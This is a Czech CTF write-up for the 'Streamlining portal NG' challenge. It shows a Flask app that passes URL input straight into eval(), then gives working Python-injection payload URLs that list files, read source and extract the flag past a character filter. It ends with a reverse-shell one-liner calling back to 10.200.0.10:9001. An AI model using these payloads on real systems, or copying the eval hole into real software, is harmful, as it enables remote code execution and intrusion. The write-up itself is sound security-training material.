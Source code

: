 # Streamlining portal NG(4)

## Zadání

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on <http://user-info-ng.mysterious-delivery.tcc>.

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

## Nápovědy (Hints)

1\. Use VPN to get access to the web.

## Řešení

Tato úloha navazuje na [Streaming portal](../13_Streamlining_portal/README.md) a mělo by se jednat o její bezpečnější variantu. Zkusíme, co zůstalo.

---
Vylistování tříd

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__())+"`

Funguje.

---
Vylistování souborů

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('ls -al',shell=True,stdout=-1).communicate())+"`

Nefunguje 😒.

---
Verze Pythonu

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('python --version',shell=True,stdout=-1).communicate())+"`

Funguje `Python 3.10.6`.

---
Aktuální adresář

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('pwd',shell=True,stdout=-1).communicate())+"`

Funguje `/app`.

---
Zobrazení souboru projektu (odhadneme `app.py`)

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('cat app.py',shell=True,stdout=-1).communicate())+"`

Negunguje 😒.

---
Některé příkazy tedy můžeme spouštět, některé ne. Nejsou k dispozici příkazy `ls`, `cat` a další, které bychom rádi použili. Pro vylistování použijeme funkci pythonu `os.listdir()`.

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279].__init__.__globals__['sys'].modules['os'].listdir('.'))+"`

Funguje.

`Hello ['FLAG', '__pycache__', 'templates', 'app.py']`

---
Vylistujeme si adresář FLAG

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279].__init__.__globals__['sys'].modules['os'].listdir('FLAG'))+"`

Také funguje.

`Hello ['flag.txt']`

---
Zkusíme si zobrazit flag

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279].__init__.__globals__['__builtins__']['open']('FLAG/flag.txt').readlines())+"`

Nefunguje 😒

```text
Not Found

The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.
```

---
Zkusíme si zobrazit soubor `app.py`

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279].__init__.__globals__['__builtins__']['open']('app.py').readlines())+"`

Funguje

```python
from flask import Flask, Blueprint, redirect, render_template, abort

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
       abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

---
Pokud porovnáme tento zdrojový kód s kódem z předchozí úlohy, tak se liší v řádku `@bp.route('/hello/<userstring>')` a v zakázání příkazu `cd`. Nemůžeme tedy v python kódu použít lomítko `/`. Můžeme ho ale nahradit hexadecimální reprezentací `\x2f`. Zpětné lomítko také nemůžeme použít, to ale můžeme nahradit URL kódováním za `%5C`.

Dotaz tedy bude

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279].__init__.__globals__['__builtins__']['open']('FLAG%5cx2fflag.txt').read())+"`

nebo

`http://user-info-ng.mysterious-delivery.tcc/hello/"+open('FLAG%5cx2fflag.txt').read()+"`

Toto už funguje a získáme flag.

I zde je možné spustit reverse shell.

`http://user-info-ng.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('python -c %5c"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%5c'10.200.0.10%5c',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(%5c'%5cx2fbin%5cx2fbash%5c')"',shell=True))+"`

V souboru [app.tar.gz](app.tar.gz) jsou stažené zdrojové soubory serveru.

## Flag

`FLAG{hvIM-3aty-R39h-dOZ4}`
